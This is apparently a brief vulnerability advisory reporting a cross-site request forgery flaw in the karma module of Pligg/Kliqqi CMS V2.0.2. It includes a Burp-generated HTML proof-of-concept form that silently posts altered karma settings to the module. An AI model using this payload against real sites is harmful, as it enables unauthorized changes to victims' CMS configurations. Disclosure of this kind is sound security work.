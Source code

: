 
target:https://github.com/Kliqqi-CMS/Kliqqi-CMS
version: V2.0.2

Pligg CMS V2.0.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/module.php?module=karma

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/module.php?module=karma" method="POST">
      <input type="hidden" name="module" value="karma" />
<input type="hidden" name="karma_story_publish" value="%2B501" />
<input type="hidden" name="karma_submit_story" value="%2B15" />
<input type="hidden" name="karma_submit_comment" value="%2B10" />
<input type="hidden" name="karma_story_discard" value="-250" />
<input type="hidden" name="karma_comment_delete" value="-50" />
<input type="hidden" name="karma_story_spam" value="-10000" />
<input type="hidden" name="karma_story_vote" value="%2B1" />
<input type="hidden" name="karma_story_vote_remove" value="" />
<input type="hidden" name="karma_comment_vote" value="0" />
<input type="hidden" name="karma_username" value="" />
<input type="hidden" name="karma_value" value="" />
<input type="hidden" name="submit" value="Submit" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

